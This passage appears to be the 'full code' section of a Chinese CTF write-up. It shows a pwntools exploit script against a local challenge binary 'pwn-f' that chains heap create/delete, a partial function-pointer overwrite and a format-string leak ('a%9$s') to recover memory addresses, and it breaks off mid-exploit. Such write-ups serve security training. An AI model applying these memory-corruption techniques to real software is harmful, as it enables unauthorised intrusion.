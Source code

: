 <h2 id="0x8-完整代码">0x8 完整代码</h2>
<pre class="prettyprint"><code class=" hljs python"><span class="hljs-keyword">from</span> pwn <span class="hljs-keyword">import</span> *
sh = process(<span class="hljs-string">'./pwn-f'</span>)

<span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">create_str</span><span class="hljs-params">(size,str1)</span>:</span>
    sh.recvuntil(<span class="hljs-string">"quit"</span>)
    sh.send(<span class="hljs-string">"create "</span>)
    sh.recvuntil(<span class="hljs-string">"size:"</span>)
    sh.send(str(size)+<span class="hljs-string">'\n'</span>)
    sh.recvuntil(<span class="hljs-string">"str:"</span>)
    sh.send(str1)<span class="hljs-comment">#here why can not i user '\n'</span>
    <span class="hljs-comment"># print '|',sh.recvuntil('\n')[:-1],'|'</span>

<span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">delete_str</span><span class="hljs-params">(idn)</span>:</span>
    sh.recvuntil(<span class="hljs-string">"quit"</span>)
    sh.send(<span class="hljs-string">"delete "</span>)
    sh.recvuntil(<span class="hljs-string">"id:"</span>)
    sh.send(str(idn)+<span class="hljs-string">'\n'</span>)
    sh.recvuntil(<span class="hljs-string">"?:"</span>)
    sh.send(<span class="hljs-string">"yes"</span>+<span class="hljs-string">"\n"</span>)

<span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">leak</span><span class="hljs-params">(addr)</span>:</span>
    delete_str(<span class="hljs-number">0</span>)
    payload = <span class="hljs-string">'a%9$s'</span>.ljust(<span class="hljs-number">0x18</span>,<span class="hljs-string">'#'</span>) + p64(printf_addr)
    create_str(<span class="hljs-number">0x20</span>,payload)
    sh.recvuntil(<span class="hljs-string">"quit"</span>)
    sh.send(<span class="hljs-string">"delete "</span>)    
    sh.recvuntil(<span class="hljs-string">"id:"</span>)
    sh.send(str(<span class="hljs-number">1</span>)+<span class="hljs-string">'\n'</span>)
    sh.recvuntil(<span class="hljs-string">"?:"</span>)
    sh.send(<span class="hljs-string">"yes.1111"</span>+p64(addr)+<span class="hljs-string">"\n"</span>)  
    sh.recvuntil(<span class="hljs-string">'a'</span>)
    data = sh.recvuntil(<span class="hljs-string">'####'</span>)[:-<span class="hljs-number">4</span>]
    <span class="hljs-keyword">if</span> len(data) == <span class="hljs-number">0</span>:
        <span class="hljs-keyword">return</span> <span class="hljs-string">'\x00'</span>
    <span class="hljs-keyword">if</span> len(data) &lt;= <span class="hljs-number">8</span>:
        <span class="hljs-keyword">print</span> hex(u64(data.ljust(<span class="hljs-number">8</span>,<span class="hljs-string">'\x00'</span>)))
    <span class="hljs-keyword">return</span> data

<span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">main</span><span class="hljs-params">()</span>:</span>
    <span class="hljs-keyword">global</span> printf_addr<span class="hljs-comment">#set global printf addr cus leak() use it </span>
    <span class="hljs-comment">#step 1 create &amp; delete</span>
    create_str(<span class="hljs-number">4</span>,<span class="hljs-string">'aa'</span>)
    create_str(<span class="hljs-number">4</span>,<span class="hljs-string">'aa'</span>)
    delete_str(<span class="hljs-number">1</span>)
    delete_str(<span class="hljs-number">0</span>)
    <span class="hljs-comment">#step 2 recover old function addr</span>
    pwn = ELF(<span class="hljs-string">'./pwn-f'</span>)
    payload = <span class="hljs-string">"aaaaaaaa"</span>.ljust(<span class="hljs-number">0x18</span>,<span class="hljs-string">'b'</span>)+<span class="hljs-string">'\x2d'</span><span class="hljs-comment"># recover low bits,the reason why i choose \x2d is that the system flow decide by</span>
    create_str(<span class="hljs-number">0x20</span>,payload)
    delete_str(<span class="hljs-number">1</span>)
    <span class="hljs-comment">#step 3 leak base addr</span>
    sh.recvuntil(<span class="hljs-string">'b'</span>*<span class="hljs-number">0x10</span>)
    data = sh.recvuntil(<span class="hljs-string">'\n'</span>)[:-<span class="hljs-number">1</span>]
